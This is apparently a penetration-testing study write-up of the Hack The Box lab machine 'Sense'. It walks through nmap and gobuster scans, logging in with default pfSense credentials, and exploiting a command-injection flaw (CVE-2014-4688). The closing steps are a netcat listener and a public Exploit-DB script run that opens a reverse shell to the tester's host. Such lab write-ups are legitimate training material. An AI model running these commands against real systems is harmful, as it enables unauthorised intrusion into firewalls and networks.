

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/sense-easy
---

# ✅ Sense (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** pfSense Version out of dated CVE-2014-4688

**System Vulnerable:** 10.10.10.60

**Vulnerability Explanation:** The machine is vulnerable to command injection via to the file status\_rrd\_graph\_img.php. There is a public exploit code which could allow us to exploit the machine and gain access to the machine.

**Privilege Escalation Vulnerability: N/A**

**Vulnerability Fix:** Update the application to 2.1.4 or latest

**Severity:** Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -p- -T4 10.10.10.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 08:50 EDT
Nmap scan report for 10.10.10.60
Host is up (0.045s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

## Enumeration

### Port 80 Lighttpd/1.4.35

By going through the port 80, it will redirect us to port 443.

.png>)

### Port 443 HTTPS

On port 443, we have a login webpage of pfSense. By google we found, pfSense is a firewall/router computer software distribution based on FreeBSD. The open source pfSense Community Edition and pfSense Plus is installed on a physical computer or a virtual machine to make a dedicated firewall/router for a network.

.png>)

There are few things we need to check. Default credentials of the application, guess weak credentials, hidden directory or files, and SQL to bypass auth, bruteforce,.

&#x20;Default Credentials admin/admin, admin/password, [admin/pfsense](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) don't work. SQL Injection also not work. Let start our gobuster to check if there is any hidden directory or files.

```
└─$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .txt,.php -k                                                             1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.60
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/11/05 08:54:08 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]                               
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]   
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/edit.php             (Status: 200) [Size: 6689]                                 
/license.php          (Status: 200) [Size: 6692]                                 
/system.php           (Status: 200) [Size: 6691]                                 
/status.php           (Status: 200) [Size: 6691]                                 
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/changelog.txt        (Status: 200) [Size: 271]                                    
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]   
/exec.php             (Status: 200) [Size: 6689]                                   
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]   
/graph.php            (Status: 200) [Size: 6690]                                   
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]      
/wizard.php           (Status: 200) [Size: 6691]                                   
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/] 
/pkg.php              (Status: 200) [Size: 6688]                                   
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/] 
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]   
/xmlrpc.php           (Status: 200) [Size: 384]                                    
/reboot.php           (Status: 200) [Size: 6691]                                   
/interfaces.php       (Status: 200) [Size: 6695]                                   
/csrf                 (Status: 301) [Size: 0] [--> https://10.10.10.60/csrf/]      
/system-users.txt     (Status: 200) [Size: 106]                                    
/filebrowser          (Status: 301) [Size: 0] [--> https://10.10.10.60/filebrowser/]
/%7Echeckout%7E       (Status: 403) [Size: 345]                                     
                                                                                    
===============================================================
2021/11/05 09:06:01 Finished
===============================================================
```

I have noticed some files have the same sizes. Let check the difference one first.

By checking on **/changelog.txt**, that look interesting to us.

[https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/)

.png>)

On **/system-users.txt**, we see information about the user. Username: Rohib and password: company defaults. I have tried `Rohib/pfsense` not work but `rohib/pfsense` it works.

.png>)

On the System Information, I have seen version of the application is **2.1.3-Release (amd64)**.

Let searching for public exploit of this version seem like this machine is old.

.png>)

There is one interesting is Command Injection on **status\_rrd\_graph.php.** Let get us to the application and go to _**Status > RRD Graphs**,_ we see it is the same files name.

.png>)

## Exploitation

Proof of concept code: [https://www.exploit-db.com/exploits/43560](https://www.exploit-db.com/exploits/43560)

Let grab the exploit code and check the code inside.

.png>)

.png>)

Seem like it takes some argument from the input and creates python socket connect to remote host and trying to execute reverse shell.

Let start our netcat listener on port 4444 and execute the code.

```
nc -lvp 4444
```

```
└─$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.31 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

.png>)
